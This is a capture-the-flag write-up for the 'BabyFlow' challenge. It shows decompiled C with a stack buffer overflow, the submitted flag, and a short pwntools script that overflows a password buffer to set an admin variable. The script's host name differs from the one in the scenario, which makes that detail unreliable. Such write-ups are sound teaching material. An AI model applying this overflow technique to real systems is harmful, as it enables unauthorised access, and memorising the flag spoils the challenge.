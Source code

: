 ```yaml
---
title: BabyFlow
categories: 
  - Miscellaneous
  - "Binary Exploitation"
tags: 
completedDuringEvent: true
submitted: true
flag: INTIGRITI{b4bypwn_9cdfb439c7876e703e307864c9167a15}
draft: false
---
```

## Scenario

> Does this login application even work?!
>
> `nc babyflow.ctf.intigriti.io 1331`

By CryptoCat

## Solution

The binary is a simple program that reads a password from the user and compares it to a hardcoded password. If the password is correct and the variable `v5` is non-zero, it prints the flag. The input buffer is 50 bytes long, and the variable `s` length is 44 bytes. We can overflow the buffer and overwrite the variable `v5` to a non-zero value to get the flag.

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char s[44]; // [rsp+0h] [rbp-30h] BYREF
  int v5; // [rsp+2Ch] [rbp-4h]

  v5 = 0;
  printf("Enter password: ");
  fgets(s, 50, _bss_start);
  if ( !strncmp(s, "SuPeRsEcUrEPaSsWoRd123", 0x16uLL) )
  {
    puts("Correct Password!");
    if ( v5 )
      puts("INTIGRITI{the_flag_is_different_on_remote}");
    else
      puts("Are you sure you are admin? o.O");
    return 0;
  }
  else
  {
    puts("Incorrect Password!");
    return 0;
  }
}
```

To exploit this, we need to send a password that matches the hardcoded one and then add additional bytes to overflow the buffer and set `v5` to a non-zero value. We can use the `cyclic` function from the `pwntools` library to generate the necessary padding.

Here is a Python script to achieve this:

```py
from pwn import *

r = remote('irrorversible.ctf.intigriti.io', 1331)

r.recvuntil(b'Enter password: ')

password = b'SuPeRsEcUrEPaSsWoRd123'
payload = flat([
    password,
    cyclic(44 - len(password))
])

r.sendline(payload)

r.interactive()
```
